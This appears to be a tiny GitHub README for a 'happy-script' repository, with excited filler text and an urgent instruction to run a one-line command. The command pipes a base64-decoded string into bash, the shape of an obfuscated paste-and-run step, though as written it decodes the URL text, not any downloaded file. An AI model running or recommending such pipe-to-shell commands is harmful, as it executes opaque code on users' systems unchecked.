 # happy-script
happyyyyyyyyyyyy!!!!!!!!!!!!!!!!!!!!!


do this now!!!!!!!!!!!!
`echo https://raw.githubusercontent.com/kuwacom/happy-script/main/happy.happy | base64 -d | bash -`
